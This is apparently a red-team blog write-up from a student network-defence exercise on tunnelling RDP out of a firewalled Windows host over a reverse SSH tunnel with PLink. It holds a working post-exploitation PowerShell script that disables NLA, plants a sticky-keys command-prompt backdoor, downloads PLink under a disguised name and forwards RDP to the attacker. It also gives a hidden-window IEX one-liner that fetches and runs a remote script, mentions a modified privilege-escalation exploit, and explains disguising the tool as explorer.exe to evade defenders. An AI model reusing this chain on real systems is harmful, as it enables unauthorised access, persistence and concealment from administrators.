


# Forwarding RDP Over a Reverse SSH Tunnel

## Background / Introduction
I recently participated as a red team volunteer for an exercise where college students were tasked with building and defending a computer network. As part of the red team, I was aiming to have RDP access to the target machines. This turned out to be problematic because the student teams were not allowing TCP 3389 out of the network firewall. They were, however, allowing TCP 21 and 22 outbound. I used this to my advantage and setup a reverse port forward over SSH using the PuTTY component PLink. This write-up will describe how I was able to RDP to Windows targets internal to a network firewall over SSH.  

As a quick summary of what is to come, I was able to host an FTP server with some necessary scripts and binaries. A PowerShell callout to this FTP server would run a script to enable RDP, disable Network Level Authentication (NLA), Add local system firewall rules to allow RDP, then download the PLink SSH Client binary and use it to establish a reverse port forward of TCP 3389 over SSH to a randomly assigned port on my attack VM. I could then use the following command from the attack box to initiate a Remote Desktop Session to the target:   
 ```
 rdesktop 127.0.0.1:[random-port]
 ```

 The VMs used here are a x64 Windows 10 Pro Build 10240 (192.168.220.133) and a x64 Kali 2019.1 (192.168.220.132).

## PLink
PuTTY is a popular SSH and Telnet client for Windows Systems. PuTTY can be installed to Windows Systems or run as a standalone executable without installation. When PuTTY is installed, it usually installs all of the related PuTTY utilities. [Read more about PuTTY here](https://www.chiark.greenend.org.uk/~sgtatham/putty/) 

PLink is a command line tool that uses the same backend as PuTTY. PLink can run as a standalone executable without PuTTY and without installation to the system.

See the full PLink Man Page [here](https://linux.die.net/man/1/plink). This section will only cover the specific command line options that were needed for this use of the tool.

[This page](https://www.ssh.com/ssh/putty/putty-manuals/0.68/Chapter7.html) is also a great PLink reference guide that includes some examples and good descriptions of using the command line options.

A basic usage of PLink would be to establish an SSH session  
```
.\plink.exe 192.168.220.132
```


Note: ensure Kali (or whatever you are SSHing into has the SSH service running)

Several things to notice here:
1. Interactive Username and Password
2. Host key must be accepted by answering y/n to save key in cache or entering return to cancel the connection
3. Press return to begin session

We can avoid all of these interactive components in several ways.  

The first way would be to pipe the keystrokes to the plink command in addition to adding the -l and -pw command line options to specify username and password respectively. See the command below that writes out n followed by 2 new-lines ( `n is PowerShell Syntax for new-line)
```
write-output "n`n`n" | .\plink.exe 192.168.220.132 -l toor -pw password1!
```


Another way to avoid the interactive components is to use the -batch command line flag. This flag will not wait for input from a user at any of the interactive parts. This can be useful when using PLink in a script -- an interactive request will either be handled another way (like with more flags) or will cause the script to fail instead of hang while waiting for input.   In this case, we can use the batch flag in addition to the -hostkey flag to avoid having to answer y/n to saving the host key in the cache. The argument to the host key flag is the actual ssh key fingerprint of the system. PLink will check to make sure the user supplied host key matches the host key supplied by the remote system before allowing the connection to continue. This is probably the preferred method since it is quite simple.

```
.\plink.exe -batch -hostkey dc:04:bf:44:47:98:c1:e2:c0:2e:cb:5d:3b:aa:bf:6f  192.168.220.132 -l toor -pw password1!
```


Note: If you don't want to use username/password combinations on the command line, PLink is also able to use PKI. See the aforementioned reference guide and/or man page for information on this option.

In order to do a reverse port forward over SSH, the -R option is used. Quoted below is a quoted section from the PLink Man Page.

>-R [srcaddr:]srcport:desthost:destport
Set up a remote port forwarding: ask the SSH server to listen on srcport (or srcaddr:srcport if specified), and to forward any connections back over the SSH connection where the client will pass them on to the destination address desthost:destport. Only works in SSH.

The srcaddr argument is optional. If it is not supplied, then the IP address on the system that is being SSH'd to will be used. The srcport argument describes which port the SSH server should listen on for the forward. The desthost and dest port options will be the host and port that is at the other end of the port forward.  

As an example, say we are hosting an SSH server on Kali. We want to port forward TCP 3389 (RDP) to Kali port 12345.  The -R option for this scenario would look like: `-R 12345:127.0.0.1:3389`.  This option states that the SSH server on Kali should listen on 12345. The Windows Host (which we are running the PLink command from) should forward the local port 3389 to the Kali port 12345.

We can add this option to the PLink command we have been building to establish this port forward.

```
.\plink.exe -batch -hostkey dc:04:bf:44:47:98:c1:e2:c0:2e:cb:5d:3b:aa:bf:6f -R 12345:127.0.0.1:3389 192.168.220.132 -l toor -pw password1!
```


We can see two connections when looking at netstat from Kali.


Notice the SSH connection to the Windows Host on port 22 in addition to the listening status of port 12345 on 127.0.0.1.  
Because port 12345 is listening on Kali and is being forwarded to port 3389 on the Windows host, we can initiate a Remote Desktop Session to the Windows Host from Kali provided that the Windows host is configured to allow RDP connections without NLA.
```
rdesktop 127.0.0.1:12345
```


An issue you might notice with this, if your plan is to use this method in a red team engagement, is that the Windows host currently has shell access to the Kali machine via SSH. In this case and others, that may not be desirable.   To avoid this, we can use the PLink option -N to avoid starting a shell.

```
.\plink.exe -batch -N -hostkey dc:04:bf:44:47:98:c1:e2:c0:2e:cb:5d:3b:aa:bf:6f -R 12345:127.0.0.1:3389 192.168.220.132 -l toor -pw password1!
```


Notice in the above output that the PLink client did not start a shell, but the SSH session and the port forward are still active.

## Using PLink for Access

For the exercise I was part of, I used an FTP Server to host files that I needed. I used code for a local Windows privilege escalation exploit [CVE 2017-0213](https://github.com/WindowsExploits/Exploits/tree/master/CVE-2017-0213). I slightly altered the part of the exploit that originally opened cmd.exe and had it use PowerShell to download and run a script from my FTP site. The script would:
 1. Enable RDP
 2. Turn off RDP NLA
 3. Enable the default Windows Firewall rules to allow RDP
 4. Add a registry key to replace the sticky keys program with command prompt 
 5. Download PLink
 6. Port forward RDP to a random port on the attack machine

The script is commented below.
```powershell
    # Enable RDP
    Set-ItemProperty 'HKLM:\SYSTEM\CurrentControlSet\Control\Terminal Server\' -Name 'fDenyTSConnections' -Value 0

    # Disable NLA
    (Get-WmiObject -class "Win32_TSGeneralSetting" -Namespace root\cimv2\terminalservices -Filter "TerminalName='RDP-tcp'").SetUserAuthenticationRequired(0)

    # Enable default Windows Firewall rules for RDP
    Enable-NetFirewallRule -DisplayGroup "Remote Desktop"

    # Sticky keys
    REG ADD "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Image File Execution Options\sethc.exe" /v Debugger /t REG_SZ /d "C:\windows\system32\cmd.exe"

    # Download PLink from my FTP Server - Save in System32 with name explore.exe
    (New-Object System.Net.WebClient).DownloadFile('ftp://10.1.149.150:21/plink', 'C:/Windows/System32/explore.exe')

    # Generate a random port to use for RDP Port Forward
    $port = Get-Random -Minimum 2000 -Maximum 65000
    $c = "C:/Windows/System32/explore.exe -hostkey dc:04:bf:44:47:98:c1:e2:c0:2e:cb:5d:3b:aa:bf:6f -batch -N -R $($port.toString()):127.0.0.1:3389 10.1.149.150 -l toor -pw password1!"
    powershell.exe -c $c
```

In order to download the script, I had the exploit run the following command to use a .Net client to download the script as as string and execute the commands in PowerShell.
```
powershell -windowstyle hidden -c "IEX (New-Object Net.Webclient).DownloadString('ftp://10.1.149.150:21/script.ps1')\"
```

After running this script, I was able to RDP to the victim as shown in the PLink section above, then press shift 5 times in a row to invoke the sticky keys program, which was replaced with the command prompt program. This gave me a system level shell by using RDP port forwarded over SSH without logging in to the system.

## Bonus Fun - Edit the PLink Binary Resources

As an extra layer of fun, I decided to use [Resource Hacker](http://www.angusj.com/resourcehacker/) to edit some parts of the PLink program. I did this because I didn't want the PLink SSH Client description showing up in the process list on the victim. Below is a screenshot of the PLink process running before being altered.


I opened the binaries for explorer.exe and plink.exe in resource hacker. Opening the 'Version Info' section will show where the process description and other process information is. 


You can easily copy/paste all of the explorer.exe info over into the plink.exe version info section. This will cause the process to have the same name and description as the legitimate explorer.exe process.  Alternatively, you can type in or change any of the info listed in this section to whatever you want.

You can take this a step further by replacing the icons that the process uses. First, right click and save the ICO_MYCOMPUTER Icon Group from the explorer.exe process to a *.ico file. 


You can then right click and replace the icon group in the plink executable.


Press the green play button to compile changes, then use save as to save the new executable under whatever name you want. 
This will change all (or at least most) of the icons that the program uses to display in file explorer and in task manager. You may have to click on the program in a file explorer to refresh the displayed icon.

Below is a screenshot of the edited process running on the victim. Notice the malicious process (with details window open) is running in background processes user space, while the actual windows explorer is running in Windows Processes space. Note that when a file explorer window is open, the windows explorer process will appear in the 'Apps' section of Task Manager. This is a subtle difference that someone might not notice immediately, especially if they aren't looking for it.


## Conclusion
Using PLink, you can port forward RDP over SSH to an attacking host to get around network firewall port filtering. You can combine this with using Resource Hacker to replace the description and icons of the plink binary to better hide the running SSH process.  Try this with any other ports you may wish to forward!


## Reference Links
PuTTY Homepage - https://www.chiark.greenend.org.uk/~sgtatham/putty/

PLink Man Page - https://linux.die.net/man/1/plink

PLink Reference Guide - https://www.ssh.com/ssh/putty/putty-manuals/0.68/Chapter7.html

Google Exploit Code For CVE 2017-0213 - https://github.com/WindowsExploits/Exploits/tree/master/CVE-2017-0213

Resource Hacker - http://www.angusj.com/resourcehacker/

